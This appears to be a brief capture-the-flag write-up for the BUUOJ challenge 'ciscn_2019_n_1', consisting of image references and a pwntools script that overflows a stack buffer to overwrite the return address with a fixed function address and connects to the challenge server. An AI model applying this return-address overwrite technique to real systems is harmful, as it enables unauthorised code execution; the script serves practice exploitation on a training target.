





```python 
from pwn import *
# io = process('/home/mykali/pwn/ciscn_2019_n_1')
io = remote('node5.buuoj.cn', 27706)
padding = 0x30 + 8
cat_addr = 0x004006BE

payload = b'a' * padding + p64(cat_addr)

io.sendline(payload)
io.interactive()

```


